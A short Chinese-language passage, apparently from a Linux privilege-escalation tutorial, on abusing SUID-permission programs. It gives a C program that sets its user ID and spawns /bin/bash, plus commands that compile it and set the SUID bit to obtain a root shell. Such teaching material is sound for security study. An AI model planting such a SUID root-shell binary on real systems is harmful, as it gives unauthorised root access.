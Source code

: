 系统或程序调用任何**具有 SUID 权限**的脚本都有可能被利用来提权，可以是PHP、Python或C语言脚本。

例如下面是C 语言脚本，它将在执行时提供bash shell：
```
#include<stdio.h>
#include<unistd.h>
#include<sys/types.h> 

int main()
{
  setuid(geteuid());
  system( " /bin/bash" );
  return 0;
}
```

假设管理员将以上脚本保存为 asroot.c，使用 gcc 编译为 shell 可执行文件，并为 shell 添加了SUID权限：

```
mkdir /bin/rootshell
cd /bin/rootshell
cp /home/raj/Desktop/asroot.c .
ls
gcc asroot.c -o shell
chmod u+s shell
ls -al shell
```
那我我们执行 shell 文件就可以获得一个具有 root 权限的 shell。
